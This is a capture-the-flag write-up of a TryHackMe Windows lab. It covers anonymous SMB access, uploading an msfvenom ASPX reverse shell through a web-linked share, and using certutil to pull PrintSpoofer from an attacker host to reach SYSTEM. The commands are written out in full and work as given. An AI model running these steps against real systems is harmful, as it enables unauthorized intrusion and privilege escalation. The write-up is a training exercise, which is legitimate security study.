## Introduction

This lab simulates a *black box penetration test* against a client's environment that is due to be released to production in seven days.

### Scope of Work
- The client requested a full assessment of the provided virtual environment.
- Minimal information was provided to replicate the perspective of a malicious attacker.
- The engagement was conducted as a *black box penetration test*.
- The client required the discovery of *two flags (User.txt and Root.txt)* as proof of exploitation.

### Rules of Engagement
- Any tools and techniques were permitted, though manual exploitation was encouraged before automation.
- All vulnerabilities identified had to be reported, as multiple exploitation paths exist.
- The only in-scope target was the IP assigned to the VM.
- Deliverables included:
  - An *executive summary*
  - *Vulnerability & exploitation details*
  - *Remediation recommendations*

### Goal
The primary goal of this engagement was to obtain the *User* and *Root* flags while identifying vulnerabilities and misconfigurations within the environment.


---


## 🛠 Step 1: Starting the Machine & Initial Recon

📷 **Screenshot:** 

  

### 1. Start the machine from the TryHackMe interface.
   - If using your own VM → connect via the THM VPN.
   - If using AttackBox → no VPN needed, tools are pre-installed.

### 2. After starting, wait:
   - ~1 minute to get the target IP.
   - ~4–5 minutes for all services to initialize.

### 3. Perform an Nmap scan against the target IP:
```
nmap -A 10.201.66.41
```

📷 **Screenshot:** 

  

### Findings:
 - Port 80 → Microsoft IIS 10.0 (web server).
 - Ports 135, 139, 445 → MS RPC, NetBIOS, SMB (Windows file shares).
 - Port 3389 → RDP (Remote Desktop).
 - OS Discovery: Windows Server 2016 Standard Eval, Workgroup: WORKGROUP.
---


## 🛠 Step 2: SMB Enumeration & Passwords File Discovery

### 1) Enumerate SMB shares (anonymous)
```   
smbclient -L //10.201.66.41 -N
```

### 2) Connect to the 'nt4wrksv' share (anonymous)
```
smbclient //10.201.66.41/nt4wrksv -N
```
📷 **Screenshot:**

  


### 3) List files and download passwords.txt
```
ls
get passwords.txt
```

### 4) View the downloaded file locally 
```
cat passwords.txt
```

### 5) Decode base64 entries (example; replace <BASE64_STRING> with value from your screenshot)
```
echo "<BASE64_STRING>" | base64 -d
```

📷 **Screenshot:**  

  

### Observation:
 - The passwords file contained base64-encoded entries (decoded in the screenshot using ChatGpt).
 - Despite decoding, using those credentials did NOT grant SMB access — appears to be a decoy designed to waste time.
---


## 🔎 Step 3: Expanded Port Scan for Hidden Services

- After realizing the SMB credentials were a distraction, I shifted focus to other possibilities.
- It's common for administrators (or CTF creators) to host services on unusual, high-numbered ports. 
- The initial nmap scan only covered the most common 1000 ports, so it would have missed anything outside that range.
- To address this, I ran an nmap scan specifically targeting the range 49000–50000.

### 1) Run nmap on the high port range
```
nmap -p 49000-50000 10.201.66.41 
```

📷 **Screenshot:** 

  

### Observation:
 - The scan output revealed an open port in the specified range.
 - Since the command used did not include service/version detection (-sV),
   the output only showed that the port was open.

### 2) Run a detailed scan with service detection on the discovered range
```
nmap -sV -p 49000-50000 10.201.66.41
```

### Observation:
 - This detailed scan confirmed that one of the open ports in the range was running an HTTP service (a webserver).
 - With this information, the next step was to investigate the web application hosted on that port.
---


## 🌐 Step 4: Investigating the Webserver and Directory Enumeration

### After identifying the HTTP service on a high-numbered port, I navigated to it in the browser.
### Observation:
 - The web interface looked very similar to the one we had previously encountered.
 - This raised suspicion that it might be connected to the SMB share we had enumerated earlier.

### 1) Running directory brute-force to discover hidden paths
gobuster dir -u http://10.201.66.41:49663 -w /usr/share/wordlists/dirb/common.txt

### Observation:
 - Among the results, one directory stood out: "/nt4wrksv".
 - This matched the name of the SMB share we had discovered earlier with smbclient.

### 2) Visiting the "/nt4wrksv" directory in the browser
 - The directory appeared empty at first glance.

### 3) Testing direct access to known files from SMB
 Since we knew that the SMB share contained "passwords.txt",
 I manually appended it to the URL to test if it was accessible.

http://10.201.66.41:49663/nt4wrksv/passwords.txt

📷 **Screenshot:**  



### Result:
 - The contents of "passwords.txt" were displayed through the webserver.
 - This confirmed that the SMB share and the webserver SMB were directly linked.
 - You can also confirm it by putting a file into the  share and then search it on webserver.

### ✅ Conclusion:
- By uploading a malicious payload into the SMB share,
- and then accessing it via the webserver, we could achieve Remote Code Execution (RCE).
---


## 🛠 Step 5: Gaining a Reverse Shell

After confirming that the SMB share is directly accessible from the webserver, the next step was to gain remote code execution by uploading a malicious payload.  

### 1️⃣ Creating the Payload with msfvenom
I generated an **ASPX reverse shell payload** using `msfvenom`.  
I set the **LHOST** (my VPN IP) and **LPORT** (4444) for the connection.  

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourVPN_IP> LPORT=4444 -f aspx -o shell.aspx
```


### 2️⃣ Uploading the Payload to SMB Share

Once the payload was ready, I uploaded it to the nt4wrksv SMB share:
```
smbclient //10.201.66.41/nt4wrksv -N
put shell.aspx
```

📷 **Screenshot:**



### 3️⃣ Starting a Netcat Listener

To catch the reverse shell, I started a listener on port 4444:
```
nc -lvnp 4444
```

### 4️⃣ Executing the Payload via Webserver

Next, I navigated to the uploaded payload via the webserver:

```
http://10.201.66.41:49663/nt4wrksv/shell.aspx
```

 📷 **Screenshot:**  
 


## ✅ Result: Gained Shell

As soon as I accessed the payload, the connection was established back to my listener.
I successfully obtained a reverse shell on the target system.

📷 **Screenshot:**   



---


## 🛠 Step 6: Checking Privileges for Escalation

Once I had a reverse shell on the target, the first step was to check the current privileges available to my user session.  

I used the following command inside the Windows shell:  

```bash
whoami /priv
```
📷 **Screenshot:**  



### 🔎 Findings
From the output, I observed that the SeImpersonatePrivilege was Enabled.

Privilege: SeImpersonatePrivilege

Description: Allows impersonation of a client after authentication.

Significance: This privilege is often abused for privilege escalation attacks such as Juicy Potato, PrintSpoofer, or Rogue Potato, which can allow escalation to SYSTEM.

### ✅ Conclusion
The presence of SeImpersonatePrivilege (Enabled) indicated that the system was vulnerable to a known privilege escalation technique.
This gave me a clear path forward to attempt SYSTEM-level access.
---


## 🛠 Step 7: Privilege Escalation with PrintSpoofer

After discovering the SeImpersonatePrivilege permission (📷 Screenshot above), I knew this could be exploited to escalate privileges on Windows.

### 1️⃣ Hosting the Exploit on Attacker Machine

On my Kali machine, I hosted the PrintSpoofer64.exe exploit using a simple Python HTTP server:
```
python3 -m http.server 80
```

📷 **Screenshot:**  



### 2️⃣ Transferring the Exploit to Target Machine

On the target machine, I used certutil (a built-in Windows utility) to download the exploit from my attacker machine:
```
certutil -urlcache -f http://<attacker-ip>/PrintSpoofer64.exe PrintSpoofer64.exe
```

📷 **Screenshot:**  




### 3️⃣ Executing the Exploit

Next, I ran the exploit to spawn a privileged command shell:
```
PrintSpoofer64.exe -i -c cmd.exe
```

📷 **Screenshot:**  



### ✅ Result

By leveraging PrintSpoofer64.exe, I successfully escalated privileges and obtained a SYSTEM-level shell, paving the way to capture the final Root Flag.

---


## 🏁 Step 8: Capturing the Flags

### 1️⃣ Root Flag

With SYSTEM-level access, I navigated to the Administrator’s Desktop and retrieved the root.txt file:
```
type C:\Users\Administrator\Desktop\root.txt
```

📷 **Screenshot:**  



### ✅ Successfully captured the Root Flag.

### 2️⃣ User Flag

Similarly, the User Flag was found in the Bob user’s Desktop directory:
```
type C:\Users\Bob\Desktop\user.txt
```

📷 **Screenshot:**  



### ✅ Successfully captured the User Flag.

## 🎯 Final Result

User Flag → C:\Users\Bob\Desktop\user.txt

Root Flag → C:\Users\Administrator\Desktop\root.txt

This concludes the successful exploitation and privilege escalation of the target machine.
